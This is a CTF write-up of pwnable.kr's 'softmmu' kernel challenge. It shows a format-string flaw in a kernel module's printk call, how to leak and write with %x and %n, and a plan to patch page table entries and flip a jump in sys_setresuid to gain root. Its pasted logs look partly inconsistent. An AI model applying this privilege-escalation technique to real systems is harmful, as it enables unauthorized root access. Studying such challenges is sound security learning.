

Over the years of my CTF'ing I always come back to pwnable.kr, although a tad outdated it's a vast source of simply awesome binary exploitation and pwn challanges. In particular their kernel exploitation series of challanges interest me - they're really well made and good introductory material on the matter. Per the policies on the site, this writeup won't share any source code and try to be minimal as possible.
The last of those challanges is softmmu, here's the readme:
If you are good at kernel exploit, try this one :)

The Challange
We're given two things: a linux kernel object file containing some sort of a driver, and access to a fairly old linux virtual machine loaded with asid driver. Before we open the executable for further inspection in IDA, let's SSH into the machine and check what it does.
...
[+] Loading x86 PAE MMU emulator
[+] Write the virtual address to /proc/softmmu
[+] You can obtain it's physical address by reading /proc/softmmu
[+] i.e. echo -ne '\x00\x80\x04\x08' > /proc/softmmu; hexdump -C /proc/softmmu
[+] Let the kernel exploit begin :)
$ uname -a
Linux (none) 3.7.1 #1 SMP Mon Dec 23 06:07:19 PST 2013 i686 GNU/Linux
$ ls /*.ko
/softmmu.koHmm, it prints out a pretty explanation for us :3 As the name softmmu hints - the module interfaces with the Linux kernel memory's and emulates a x86 Page Address Extension for the MMU. The interface with the module seems to be very straightforward, we write a virtual address to the device file /proc/softmmu and then read back the physical address.
Finding A Vulnerability
Our end goal is to get root, so we definitely have to find a vulnerability to expoloit in the softmmu module. Let's open the kernel object file in IDA to analyze:

A fairly tame program, not too many functions and fairly straightforward structure. We are not going to reverse the entire program (since I found the vulnerability quickly) but here are some pointers:
> We cannot request the physical addresses of ones outside userspace (seems important for the exploit).
> It recursively traverses page table within the mmu_walk() function in order to retrieve addresses.
> Program contains verbose output for debugging purposes.
The last point is particulary important; it allows us to understand the inner workings better and perhaps find a vulnerability to exploit, let's look at the debugging code.
__int64 __usercall get_pte_entry@<edx:eax>(int a1@<eax>, char *a2@<edx>)
{
int v2; // ebx
v2 = *(_DWORD *)&a2[8 * ((a1 & 0x1FF000u) >> 12)];
if ( (v2 & 1) != 0 )
{
printk("[Debug] PGD(%x) Dump\n", a2);
printk(
"[task:%s] %p:%02x %p:%02x %p:%02x %p:%02x\n",
(const char *)(__readfsdword((unsigned int)¤t_task) + 740),
a2,
*a2,
a2 + 1,
a2[1],
a2 + 2,
a2[2],
a2 + 3,
a2[3]);
printk("[Debug] Dump Virtual Address\n");
printk("\n===============================\n");
printk((const char *)req_vaddr);
printk("\n===============================\n");
}
return v2;
}Fairly bloaty raw decompiled code, but breaking it down it is very simple: it retrieves a page table entry from a PD64 (Page Global Directory entry). Besides the pretty cool kernel level code, the vulnerability here is glaringly obvious - the program passes the address we request (a global variable) to printk().
> printk((const char *)req_vaddr);
Boom~!
We found a string format vulnerability we can control :3
Writing The Exploit - Pt. 1
So far this hasn't been a challenge for kernel experts, even a script kiddie can find this vulnerability. I must admit, writing the exploit is much more difficult because a plethora of reasons.
In order to pass a string to the module, we'd have to allocate some bytes in the process memory space. Let's try compile a simple C program on the remote machine to do just that:
/tmp $ gcc pwn.c
sh: gcc: not foundOof, that means we have to cross compile.
The first problem that imposes us is the fact the remote machine is running a really outdated version of the kernel, paired with the fact it doesn't have internet access it really limits us in how we compile for it.
The soltuion that I came up with was as follows
compile a static no-stdlib program -> compress it -> base64 the tar.gz -> do the reverse on remote.
This means writing a minimal libc from scratch, good luck me...
After a fair amount of work, I got to a level where I had all of the necessary API's to leverage the vulnerability
On local machine:
yael@covenstead:~/softmmu$ gcc pwn.c -nostdlib -m32 -static -o /dev/stdout | gzip - | base64 -w 0
H4sIAAAAAAAAA+1bfWwT5xlz3YSjziNYdmW0nR1p2iE0phAUpY0k0gCB2kFw4RYa9dS49hHEsd2PPtcEgYrzIuI5VnLgE2a1j+Q9v2hqdpUpPHPsqZt...On Remote:
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%x %x %x %x\n"
< paste base64 code here >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627] c2eb7514 c2ad21000 0 c2ad21001 0
======================================
[<3] softmmu output: 0xBFB81288
Awesome~! We're able to leak addresses off the stack :3
Finally some progress, we should try running the forsakened %n...
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x "%65n"
< ... >
[ 1406.371600] virtual address set to dede000
[ 1406.371963] [Debug] PGD(c2ad1000) Dump
[ 1406.372520] [task:x] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.372963] [Debyg] Dump Virtual Address
[ 1406.373234]
[ 1406.373234] =============================
[ 1406.373627]
======================================
[ 1406.374963] [Debug] PGD(c2ad1000) Dump
[ 1406.374520] [task:A] c2ad1000:00 c2ad1001:00 c2ad1002:00 c2ad1003:00
[ 1406.374963] [Debyg] Dump Virtual Address
[ 1406.375234]
[ 1406.375234] =============================
[ 1406.375627]
======================================
[<3] softmmu output: 0xBFB81288OMG, it worked and we wrote into the process name <3! (As seen in the debug messages) All of this work wasn't for nothing.
Writing The Exploit - Pt. 2
Now for the second part of the exploit, we have to figure out how the hell we take advantage of the format string vulnerability. This isn't like the average format string attack as it's not performed on a userland stack, but a kernel one. Besides our request address which occasionally surfaces down the stack we get nada.
Luckily for us we have a bunch of debug values on the stack, some of them might be incredibly useful to craft an exploit. Yes! The stack is setup in a way we can write to the page table entry any arbtriary value we want, hence we change the permissions of a kernel pages and execute our code as supervisor :3
(We have a pointer for each byte and the corresponding address)
Since we have to fully comperhend the paging mechanism in full detail to execute this exploit properly, here's a diagram of the Page Table Entry structure:

There are many bits and flops, but assuming basic knowledge of paging nothing is too out of ordinary. The first three flags are interesting: P (Present), R/W (Read/Write) and U/S (User/Supervisor).
If the Present bit is set then the page is actually in physical memory at the moment, if the Read and Write bit is set then the page is both readable and writable (if not then it is read only) and lastly the USer/Supervisor bit is set based on privellege level.
We can get to work on patching the bytes of the PTE, we are able to patch one of our userspace page entries to pount to a physical adress that contains the kernel code of sys_setresuid() and make it writable. Once we got that we can flip the prillege check from je to jne, call setresuid(0) and obtain root >:3
/ $ base64 -d | gunzip - > /tmp/x && chmod +x /tmp/x && /tmp/x
< ... >
{CENSORED_FLAG}
/ # whoamiConclusions
This without a doubt is a serious challenge full of hurdles. Personally for me it symbolizes some sort of maturity in my cybersecurity journey, I learned so much throughout and I can't wait to do more.
About the softmmu itself, this post only showed the a small part of the failures. So much stuff I first tried didn't end up working at the end, this only shows how deep and complex it gets. I believe it is a prime example of diving deep and reading old documentation about the kernel's inner workings and trying to figure it all out.
TLDR: the kernel is complex